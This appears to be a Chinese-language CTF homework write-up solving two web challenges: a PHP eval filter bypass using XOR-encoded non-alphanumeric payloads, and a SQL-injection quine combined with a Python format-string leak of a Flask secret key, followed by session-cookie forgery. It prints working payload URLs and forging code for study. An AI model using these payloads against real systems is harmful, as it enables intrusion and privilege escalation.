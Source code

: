 # HW5 writeup

## (#°д°)
### Solution
本題希望我們輸入一個 PHP payload ，然後丟給 eval 函式執行。不過 payload 有長度上的限制 (長度 < 32) 以及不能含有 alphanumeric 以及 backtick。

PHP 有一個很奇怪的特性，那就是字串可以拿來 call 函數。例如 `'system'('ls')` 。因此我們可以利用這個特性構造 payload。既然不能有 alphanumeric 字元，我們試著將我們想要用的字串 s1 先 xor 一個 non-alphanumeric 的字串 s2，得到 s3。而後如果 s3 也是 non-alphanumeric 的話，`s2^s3` 也一樣會是  non-alphanumeric ，同時 `s2^s3` 的值等同於 s1。這裏，我令 s2 爲 `str_repeat("\x80", strlen($s1))`，這樣可以百分百保證 s3 有會是 non-alphanumeric 的。原理很直觀，就是把 MSB 翻成 1 而已。

最後，因為本題有長度限制，所以我希望 payload 越小越好。因此我用到的 PHP 的令一個特性：當 PHP 遇見 unquoted string literal 時，它會幫你自動轉成 string ，加上噴一些 warning (可以忽略沒差)。因此，`'ls'^'\x80\x80'` 可以簡化成 `ls^\x80\x80`。

於是，依據以上的分析，我寫了一個 PHP script 幫我們自動產生 payload（程式碼在 `payload.php` 中，用法是 `php payload.php <command>`）。

之後，根據經驗先看看根目錄有沒有 flag：
```
php payload.php "ls /"
https://php.splitline.tw/?(%23°д°)=%28%80%80%80%80%80%80%5E%F3%F9%F3%F4%E5%ED%29%28%80%80%80%80%5E%EC%F3%A0%AF%29%3B
```
結果：
![](https://i.imgur.com/LZwzls6.png)

看到 flag 了！把 flag 印出來：

```
php payload.php "cat /*"
https://php.splitline.tw/?(%23°д°)=%28%80%80%80%80%80%80%5E%F3%F9%F3%F4%E5%ED%29%28%80%80%80%80%80%80%5E%E3%E1%F4%A0%AF%AA%29%3B
```
結果：
![](https://i.imgur.com/jOIAJIP.png)

更新：自動化腳本在 `(#°д°).php` 可以看到。用法是 `php \(\#°д°\).php`

## VISUAL BASIC 2077

根據本題的敘述，本題希望我們在 login panel 做 SQL injection。先看看 SQL 部分的 source code：

```python
query = f"select username, password from users where username='{username}' and password='{password}'"
```
`username` 和 `password` 都是可控的，因此這裏很明顯有 SQL injection 的漏洞。

原先的方法是用 time based 的 SQL injection 把帳密爆出來，不過爆出來後沒有什麼用。我們 trace 一下 code 就知道為什麼：
```python
if res != None and res['username'] == username and res['password'] == password:
    return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
```
這邊我們可以看到 flag 是從以下的 code 產生的：
```python3
def __str__(self):
    return self.flag if session.get('is_admin', False) else "Oops, You're not admin (・へ・)"    
```
也就是說，`session['is_admin']` 必須是 true 才會噴 flag 回來。可惜的是，這份程式碼沒有任何地方能讓我的 `session['is_admin']` 變 true。 

不過，因爲本題的後端是用 Flask 寫的，flask 的 session 其實是放在 client 端的。詳細地來說，Flask 的 session 分成三個部分： base64 encode 的 session data，base64 encode 的時間戳，以及 base64 encode 的簽章。於是，base64 decode 第一個部分就會發現 session data 了：
```
{"is_admin":false}
```
由此可知，構造session 並不是件難事，重點是簽章的部分。
根據官方文件，簽章用的 key 是 `flask.Flask.secret_key`。可惜的是在程式的第七行可以看到：

```python
app.secret_key = urandom(32)
```
這個 secret 理想上是爆破不出來的。

那要怎麼辦呢？繼續用力 trace 一下 source code ，我發現一個詭異的地方：
```python
return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
```
乍看之下好像很正常，但因為 username 是可控的，因此有 python 版的 format string 漏洞。例如可以設想當 `username = '{flag.__init__}'` 時，本行會變成 
```python
"<h1>Hello, {flag.__init__} ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} "
```
，執行完後理想上會印出 `flag.__init__` 的值。計劃上，我們可以 somehow 利用在 SSTI 學到的技巧去把我們想要的一些資訊挖出來。不過，前提是我們必須繞過
```python
res['username'] == username and res['password'] == password
```
。換言之，如果我們對 username 做 injection ，我們的 injection code 必須要和 username 一模一樣。

一開始試想 exploit sqlite3 的 execute 看看能不能做注入。不過也沒辦法了。可惜的是這函數似乎沒辦法用 `;` 去執行多於一個 command ，所以沒辦法 `INSERT INTO users ...` 之類的方法去插入新的 username & password。最後，我去問了助教解題方向後才恍然大悟。

splitline 大大告訴我解題的關鍵在於 hint：

```python
_='_=%r;return (_%%_)';return (_%_)
```

仔細觀賞這行 code，我們可以看到這行程式的輸出和程式碼一模一樣！！爬了許多文後發現這種程式的輸出和程式碼一樣的程式叫做 quine。似乎是一群<del>閒著沒事的人</del>喜歡研究的程式藝術。(我太菜了Orz)

那 quine 對我們的解題有何幫助呢？我們剛剛說過如果我們對 username 做 injection ，injection code 必須要和 username 一樣。也就是說，我們可以 somehow 構造 SQL 版本的 quine 去繞過這項限制。

又爬了許多文後發現有一位叫  [MakeNowJust](https://github.com/MakeNowJust/quine) 的 quine 大佬寫的 quine.sql ：
```sql
select printf(s,s)from(select'select printf(s,s)from(select%Qas s);'as s);
```

總之，拿這位大佬的 SQL code 去改。經過許多 trial and error 後終於構造出 paload 來了（ 麻煩的原因是 sqlite 沒有 default 的跳脫字元，必須利用 `substr(quote(hex(0)),1,1)` 之類的旁門左道去產出 `'` ）：
```sql
' UNION SELECT "{flag.__init__}",printf(substr(quote(hex(0)),1,1)||a,a) FROM (SELECT ' UNION SELECT "{flag.__init__}",printf(substr(quote(hex(0)),1,1)||a,a) FROM (SELECT %Q AS a)--' AS a)--
```

丟看看結果：
![](https://i.imgur.com/cpUuEKg.png)

要看一下 source 才會有東西:

```htmlembedded
<h1>Hello, <bound method Flag.__init__ of <main.Flag object at 0x7fd5b8cb5b80>> ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: Oops, You're not admin (・へ・) 
```

成功！

再來，我們要挖什麼資訊呢？我們剛說 `app.secret_key` 實做上是爆破不出來的，那我們或許可以利用 SSTI 的相關技巧撈出這把 key。比較可惜的是這種 format string 不支援 function call 的。所以 `flag.__class__.__mro__.__subclasses__()` 之類的方法不能用。另一種常用的技巧是用 `__init__.__globals__` 去抓 global variable。由於 `app` 很明顯是 global 的，因此 `flag.__init__.__globals__[app].secret_key` 理論上是找的到的。用這個方法的好處是不需要用到 function call。

試看看以下的 payload:

```sql
' UNION SELECT "{flag.__init__.__globals__[app].secret_key}",printf(substr(quote(hex(0)),1,1)||a,a) FROM (SELECT ' UNION SELECT "{flag.__init__.__globals__[app].secret_key}",printf(substr(quote(hex(0)),1,1)||a,a) FROM (SELECT %Q AS a)--' AS a)--
```

結果：

![](https://i.imgur.com/QrGo8vw.png)

secret key 被我找到了！

剩下的工作就是僞造 session 了。我們可以利用 `flask_unsign`  這個 module 將`{"is_admin":true}` 覆蓋入 session。以下是僞造 session 的程式碼：

```python
import flask_unsign
secret_key = b'\xc5\xee\x1e\xb6n\x13\x95\x184^\xb2\x1cA\xa7\x11E\xa2B\x8d\x00\xfd\xa6\xc6Z4\x86\xa5\xb1_\xff\x15\xd1'
text = {"is_admin": True}
new_session = flask_unsign.sign(text, secret_key)
print(new_session)
```

把舊的 cookie 換上僞造的新 cookie 後就得到 flag 了！

![](https://i.imgur.com/UKGh9lK.png)

自動化腳本在 `quine.py` 可以找到。用法是 `python3 quine.py`。
